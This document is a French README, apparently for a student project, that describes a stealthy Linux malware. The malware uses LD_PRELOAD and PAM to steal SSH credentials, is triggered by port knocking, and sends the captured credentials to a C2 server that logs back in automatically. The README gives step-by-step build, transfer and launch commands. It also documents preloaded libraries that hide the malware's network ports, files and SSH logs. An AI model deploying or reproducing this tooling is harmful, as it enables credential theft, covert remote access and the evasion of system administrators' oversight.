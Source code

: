  # Malika MECHKAL 3SI2

🛠️ README : Malware avec LD_PRELOAD & Port Knocking

📌 Introduction
Ce projet implémente un malware furtif exploitant LD_PRELOAD et PAM (Pluggable Authentication Modules) pour capturer les identifiants SSH et masquer sa présence sur la machine cible.

Le malware est activé via un mécanisme de Port Knocking nécessitant une séquence secrète de frappes sur les ports 1111, 2222 et 3333. Une fois activé, il intercepte les connexions SSH, récupère les identifiants et établit une connexion ssh automatique avec un serveur C2.

🔹 Fonctionnalités
    Port Knocking : Activation secrète du malware en écoutant sur 3 ports.
    Interception des identifiants SSH avec PAM.
    Masquage des connexions réseau via hide_connections.so.
    Masquage des fichiers malveillants via hide_files.so.
    Suppression et blocage des logs via hide_logs.so.
    Connexion ssh automatique sur la cible depuis serveur C2 après interception des identifiants.

📂 Installation & Exécution
#  1- Configuration des IPs
    Avant de compiler, assurez-vous de configurer les IP correctes dans les fichiers malware.c et server.c :
```
#define C2_IP "192.168.18.128"  // IP du serveur C2
#define TARGET_IP SI"192.168.18.130"  // IP de la machine cible

```

# 2- Compilation du projet
Sur la machine serveur C2, utilisez make pour compiler tous les fichiers 
```
make 

```
Cela génère les exécutables suivants :
*   server
*   port_knock
*   malware.so
*   hide_connections.so
*   hide_files.so
*   hide_logs.so

# 3-  Transfert des fichiers vers la machine cible
Transférez les fichiers générés (sauf server) vers /tmp/ sur la machine cible :
```
scp port_knock malware.so hide_connections.so hide_files.so hide_logs.so user@192.168.18.130:/tmp

```
# 4-  Préparation de la machine cible
Sur la machine cible, désactivez SSH et préparez l’environnement :
```
sudo systemctl stop ssh
sudo mkdir -p /run/sshd
sudo chmod 755 /run/sshd

```

# 5- Lancement du Port Knocking
Sur la machine cible, exécutez port_knock en mode root dans le dossier /tmp:
```
sudo ./port_knock
```

# 6- Lancement du serveur C2
Sur la machine serveur C2 :
```
./server
```
Le serveur attend la frappe secrète des ports pour activer le malware.

# 7- Activation automatique du malware
Lorsque le C2 envoie des paquets aux ports 1111, 2222 et 3333, la machine cible détecte la séquence et démarre le malware avec LD_PRELOAD(malware.so).

# 8- Connexion SSH automatique & interception
*   Après activation, la machine cible attend une connexion SSH.
*   Lorsqu’un utilisateur se connecte en SSH, les identifiants sont interceptés et envoyés au serveur C2.
*   Le serveur C2 utilise ces identifiants pour se connecter automatiquement à la machine cible.
*   Un fichier credentials.log est créé à la racine du serveur avec les identifiants capturés.

# 9- Tests & Vérifications
Masquer les connexions réseau
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_connections.so netstat -tulnp
```
    => Les ports 1111, 2222 et 3333 doivent être invisibles.

# 10- Masquer les fichiers malveillants
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_files.so ls -la /tmp
```
    => Les fichiers du malware (malware.so, hide_*.so) ne doivent pas apparaître.

# 11- Masquer les logs
Sur la machine cible, exécutez :
```
sudo LD_PRELOAD=/tmp/hide_logs.so journalctl -xe
```
    => Les logs liés aux connexions SSH ne doivent plus apparaître.

# /!\######## Problème avec la branche DEV_USER_NON_ROOT
Une tentative a été faite pour exécuter port_knock sans être root, mais cela a posé des problèmes de clés SSH.

Même en copiant correctement les clés dans /tmp/ssh, l’authentification ne fonctionnait pas.



